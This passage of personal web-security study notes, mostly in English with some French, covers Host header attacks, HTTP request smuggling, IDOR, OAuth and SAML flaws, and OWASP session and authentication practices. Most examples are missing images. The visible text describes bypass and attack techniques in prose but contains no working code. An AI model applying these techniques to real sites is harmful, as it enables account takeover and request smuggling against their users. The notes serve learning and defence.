

<p id="gdcalert156" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image156.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert157">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**The website may block requests with multiple Host headers, but you may be able to bypass this validation by indenting one of them like this.**

**The back-end may ignore the leading space and gives precedence to the first header in the case of duplicates.**

**There are many possible ways to issue harmful, ambiguous requests. You can also adapt many HTTP request smuggling techniques to construct Host header attacks.**


<p id="gdcalert157" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image157.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert158">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**From a security perspective, it is important to note that some websites, potentially even your own, support this kind of behavior unintentionally. This is usually because one or more of these headers is enabled by default in some third-party technology that they use.**


* Password reset poisoning :


<p id="gdcalert158" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image158.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert159">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert159" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image159.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert160">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert160" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image160.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert161">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert161" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image161.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert162">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert162" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image162.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert163">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* HTTP request smuggling
* Definition

    **HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users.**


<p id="gdcalert163" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image163.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert164">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**When the front-end server forwards HTTP requests to a back-end server, it typically sends several requests over the same back-end network connection, because this is much more efficient and performant. **

**The protocol is very simple: HTTP requests are sent one after another, and the receiving server parses the HTTP request headers to determine where one request ends and the next one begins.**


<p id="gdcalert164" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image164.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert165">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert165" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image165.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert166">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert166" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image166.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert167">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert167" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image167.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert168">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert168" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image168.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert169">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Since the HTTP specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other. **

**The HTTP specification attempts to prevent this problem by stating that if both the Content-Length and Transfer-Encoding headers are present, then the Content-Length header should be ignored. **

**This might be sufficient to avoid ambiguity when only a single server is in play, but not when two or more servers are chained together. In this situation, problems can arise for two reasons :**

**Some servers do not support the Transfer-Encoding header in requests.**

**Some servers that do support the Transfer-Encoding header can be induced not to process it the header is obfuscated in some way.**

**If the front-end and back-end servers behave differently in relation to the (possibly obfuscated) Transfer-Encoding header, then they might disagree about the boundaries between successive requests, leading to request smuggling vulnerabilities. **


<p id="gdcalert169" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image169.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert170">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* CL.TE vuln


<p id="gdcalert170" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image170.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert171">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* TE.CL vuln


<p id="gdcalert171" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image171.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert172">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* TE.TE vuln


<p id="gdcalert172" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image172.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert173">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Prevention


<p id="gdcalert173" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image173.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert174">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Finding CL.TE vuln


<p id="gdcalert174" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image174.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert175">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert175" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image175.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert176">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Finding TE.CL vuln


<p id="gdcalert176" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image176.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert177">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert177" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image177.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert178">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* IDOR ( Insecure Direct object Reference )

    **Insecure Direct Object Reference represents a vulnerable Direct Object Reference. It involves replacing the entity name with a different value without the user’s authorization. As a result, users will be directed to links, pages, or sites other than the ones they intended to visit, without having the slightest clue about it.**


    **Preventing IDOR Vulnerability :**

* **Use an Indirect Reference Map (  mapping between the alternate IDs and actual references are maintained safely on the servers ).**

        **Note that some sources recommend preventing IDOR vulnerabilities by using long, hard-to-guess object identifiers.**

* OAuth 2.0 authentication vulnerabilities

### 
    What is OAuth ?


    **OAuth is a commonly used authorization framework that enables websites and web applications to request limited access to a user's account on another application. **


    **You've almost certainly come across sites that let you log in using your social media account.**


    **Crucially, OAuth allows the user to grant this access without exposing their login credentials to the requesting application. **


### 
    How does OAuth 2.0 Work ?


**	**

<p id="gdcalert178" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image178.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert179">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


    **There are numerous different ways that the actual OAuth process can be implemented. In this topic, we'll focus on the "authorization code" and "implicit" grant types as these are by far the most common. **


<p id="gdcalert179" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image179.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert180">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


    **There are several different grant types, each with varying levels of complexity and security considerations.**

**	**

**	Fore more details : [https://portswigger.net/web-security/oauth/grant-types](https://portswigger.net/web-security/oauth/grant-types)**


    **Grant types are often referred to as "OAuth flows". **


    **example : **


<p id="gdcalert180" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image180.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert181">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


    **For basic OAuth, the scopes for which a client application can request access are unique to each OAuth service. **

**“Authorization code” grant type**


<p id="gdcalert181" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image181.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert182">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Other better view :**


<p id="gdcalert182" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image182.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert183">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **The "access token" is also used to make API calls to fetch the relevant user data. **
* 

<p id="gdcalert183" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image183.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert184">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**	**

**As the most sensitive data (the access token and user data) is not sent via the browser, this grant type is arguably the most secure. Server-side applications should ideally always use this grant type if possible. **


1. **Authorization request**

    **The client application sends a request to the OAuth service's ( /authorization OR /auth … it may vary).**


<p id="gdcalert184" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image184.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert185">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


2. **User login and consent**

    **When the authorization server receives the initial request, it will redirect the user to a login page, where they will be prompted to log in to their account with the OAuth provider. For example, this is often their social media account. **


    **They will then be presented with a list of data that the client application wants to access. This is based on the scopes defined in the authorization request. The user can choose whether or not to consent to this access. **


**“Implicit” grant type**


<p id="gdcalert185" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image185.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert186">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **The implicit grant type is much simpler. Rather than first obtaining an authorization code and then exchanging it for an access token ( like in the other grant type ), the client application receives the access code immediately after the user gives their consent. **
* **It is far less secure. When using the implicit grant type, all communication happens via browser redirects - there is no secure back-channel like in the authorization code flow.**

    **This means that the sensitive access token and the user's data are more exposed to potential attacks. **

* **The implicit grant type is more suited to single-page applications and native desktop applications, which cannot easily store the client_secret on the back-end, and therefore, don't benefit as much from using the authorization code grant type. **

**OAuth authentication**


* **Although not originally intended for this purpose, OAuth has evolved into a means of authenticating users as well. For example, you're probably familiar with the option many websites provide to log in using your existing social media account **
* **OAuth authentication is generally implemented as follows : **


<p id="gdcalert186" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image186.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert187">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert187" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image187.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert188">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* 

<p id="gdcalert188" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image188.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert189">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**If the state Parameter is not used by the OAuth2 Client, a CSRF is maybe possible ( leading to Takeover account ) :**


<p id="gdcalert189" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image189.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert190">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Then ( in the next photo ):**


<p id="gdcalert190" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image190.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert191">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Or When the Login page in the Authorization Server and the account linking are no protected against CSRF :**


<p id="gdcalert191" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image191.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert192">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* How do OAuth authentication vulnerabilities arise?
    * **OAuth authentication vulnerabilities arise partly because the OAuth specification is relatively vague and flexible by design.**
* **One of the other key issues with OAuth is the general lack of built-in security features. The security relies almost entirely on developers using the right combination of configuration options and implementing their own additional security measures on top, such as robust input validation.**
* **Depending on the grant type, highly sensitive data is also sent via the browser, which presents various opportunities for an attacker to intercept it.**

**	**

**Example of attack :**


<p id="gdcalert192" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image192.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert193">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert193" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image193.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert194">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert194" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image194.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert195">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**However, there may still be ways to bypass this validation. It depends on how the URI is checked (See SSRF bypass, parameter pollution vulnerabilities).**


<p id="gdcalert195" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image195.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert196">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**It is important to note that you shouldn't limit your testing to just probing the redirect_uri parameter in isolation.**

**You will often need to experiment with different combinations of changes to several parameters.**

**Sometimes changing one parameter can affect the validation of others. For example, changing the response_mode from query to fragment can sometimes completely alter the parsing of the redirect_uri.**


<p id="gdcalert196" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image196.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert197">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Once you identify which other pages you are able to set as the redirect URI, you should audit them for additional vulnerabilities ( like open redirects, …) that you can potentially use to leak the code or token.**


* **Flawed scope validation :**


<p id="gdcalert197" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image197.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert198">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* SAML
* Definiton

**Unlike OAuth, SAML is just for authentication :**


<p id="gdcalert198" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image198.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert199">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**But the Service Provider needs to trust the Identity Provider :**


<p id="gdcalert199" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image199.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert200">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**So the SAML response is signed and the Service Provider has to verify this Signature with the IProvider public key :**


<p id="gdcalert200" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image200.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert201">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


### Some Vulnerability :


* **The signature is not verified ( so you can tamper the response and connect with another account ) Or you can remove it (only the content of “SignatureValue” tag) .**
* Injection de commentaire XML :
* 

<p id="gdcalert201" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image201.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert202">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


    **--------------------------------------------------**

* Phar://


<p id="gdcalert202" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image202.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert203">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert203" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image203.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert204">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert204" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image204.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert205">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert205" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image205.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert206">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert206" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image206.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert207">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Different file extensions

<table>
  <tr>
   <td>
<strong>[FILE].a</strong>
   </td>
   <td><strong>Static libraries in Linux.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>[FILE].so</strong>
   </td>
   <td><strong>Dynamically linked shared object libraries in Linux.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>[FILE].ppm</strong>
   </td>
   <td><strong>Image format.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>[FILE].asar</strong>
   </td>
   <td><strong>Fichier décompressable avec winrar</strong>
   </td>
  </tr>
  <tr>
   <td><strong>.pht</strong>
   </td>
   <td><strong>liée à php</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


**	**


* JS prototype Pollution :


<p id="gdcalert207" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image207.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert208">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert208" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image208.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert209">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert209" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image209.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert210">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Règle et de bonnes pratiques :


* 
Session Management :
voir : [https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html#session-id-properties](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html#session-id-properties)


<table>
  <tr>
   <td>
<ul>

<li>Session ID Name Fingerprinting 
<ul>
 
<li>It is recommended to change the default session ID name of the web development framework (<em>PHPSESSID</em> (PHP), <em>JSESSIONID</em> (J2EE), <em>CFID</em> & <em>CFTOKEN</em> (ColdFusion), <em>ASP.NET_SessionId</em> (ASP .NET), etc.),   to a generic name, such as id.
        Therefore, the session ID name can disclose the technologies and programming languages used by the web application.
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Session ID Length and Entropy 
<ul>
 
<li>The session ID must be long enough and random enough to prevent brute force attacks  ( a good CSPRNG (Cryptographically Secure Pseudorandom Number Generator) must be used ).
 
<li>The session ID value must provide at least 64 bits of entropy
 
<li>Must also be unique
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Session ID Content (or Value) 
<ul>
 
<li>The session ID content (or value) must be meaningless to prevent information disclosure attacks. 
<ul>
 
<li>The session ID must simply be an identifier on the client side, and its value must never include sensitive information (or PII).
<ul>

<li>In addition, if the session objects and properties contain sensitive information, such as credit card numbers, it is required to duly encrypt and protect the session management repository.
<ul>

<li>It is recommended to use the session ID created by your language or framework as they have been tested by the web application security and development communities over time.
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>A web application should make use of cookies for session ID exchange management. 
    If a user submits a session ID through a different exchange mechanism, such as a URL parameter, the web application should avoid accepting it as part of a defensive strategy to stop session fixation.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
</table>


* Cookies Management :

voir : [https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html#cookies](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html#cookies)


<table>
  <tr>
   <td>
<ul>

<li>Set “Secure” Attribute : 
<ul>
 
<li>The Secure cookie attribute instructs web browsers to only send the cookie through an encrypted HTTPS (SSL/TLS) connection.
        This session protection mechanism is mandatory to prevent the disclosure of the session ID through MitM (Man-in-the-Middle) attacks.
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Set “HttpOnly” Attribute : 
<ul>
 
<li>The HttpOnly cookie attribute instructs web browsers not to allow scripts an ability to access the cookies via the DOM document.cookie object. This session ID protection is mandatory to prevent session ID stealing through XSS attacks.
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Set “SameSite” Attribute : 
<ul>
 
<li>SameSite allows a server to define a cookie attribute making it impossible for the browser to send this cookie along with cross-site requests. The main goal is to mitigate the risk of cross-origin information leakage, and provides some protection against cross-site request forgery attacks.
BONUS : Using SameSite cookies in Lax mode does then provide a partial defense against CSRF attacks, because user actions that are targets for CSRF attacks are often implemented using the POST method. Two important caveats here are:
<p>
Some applications do implement sensitive actions using GET requests.
<p>
Many applications and frameworks are tolerant of different HTTP methods. In this situation, even if the application itself employs the POST method by design, it will in fact accept requests that are switched to use the GET method.
</li> 
</ul>
</li> 
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Set “Domain and Path” Attribute :
        The Domain cookie attribute instructs web browsers to only send the cookie to the specified domain and all subdomains. If the attribute is not set, by default the cookie will only be sent to the origin server (in a general way).
<p>

        The Path cookie attribute instructs web browsers to only send the cookie to the specified directory or subdirectories (or paths or resources) within the web application.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
</table>


* AJAX Management :

    voir : https://cheatsheetseries.owasp.org/cheatsheets/AJAX_Security_Cheat_Sheet.html


<table>
  <tr>
   <td>
<ul>

<li>Use .innerText instead of .innerHtml
The use of .innerText will prevent most XSS problems as it will automatically encode the text.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Don't rely on client and business logic for security
Least ye have forgotten the user controls the client side logic. I can use a number of browser plugins to set breakpoints, skip code, change values, etc. Never rely on client logic.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Use CSRF Protection
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
  </tr>
</table>


<p id="gdcalert210" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image210.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert211">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


Session Storage et SESSION sont deux choses différentes.


        * Authentication Management :

<table>
  <tr>
   <td>
<ul>

<li>Make sure your usernames/user IDs are case-insensitive. User 'smith' and user 'Smith' should be the same user. case sensitive usernames would enable someone to attempt to impersonate someone else just by registering a new account with a different permutation of capital/lowercase letters.
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Password 
<ul>
 
<li>8 characters minimum ( shorter is considered to be weak ) 
<ul>
 
<li>It is important to set a maximum password length (such as 64 characters) to prevent long password Denial of Service attacks but not too large due to limitations in certain hashing algorithms. 
<ul>
 
<li>Do not silently truncate passwords if it’s too long.
<ul>

<li>Allow usage of all characters including unicode and whitespace.
<ul>

<li>Include password strength meter, block common and previously breached passwords
<ul>

<li>Require Re-authentication for Sensitive Features in order to mitigate CSRF and session hijacking.
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Authentication and Error Messages 
<ul>
 
<li>An application must respond with a generic error message regardless of whether:  
<ul>
  
<li>The user ID or password was incorrect.
  
<li>The account does not exist.
  
<li>The account is locked or disabled.
<ul>

<li>The processing time can be significantly different according to the case (success vs failure) allowing an attacker to mount a time-based attack ( example of implementation here : <a href="https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html">https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html</a> )
<ul>

<li>

<p id="gdcalert211" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image211.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert212">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<ul>

<li>

<p id="gdcalert212" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image212.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert213">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>
<ul>

<li>Protect Against Automated Attacks 
<ul>
 
<li>Multi-Factor Authentication
 
<li>Account Lockout
 
<li>CAPTCHA  
<ul>
  
<li>However, many CAPTCHA implementations have weaknesses that allow them to be solved using automated techniques.
</li>  
</ul>
 
<li>
</li> 
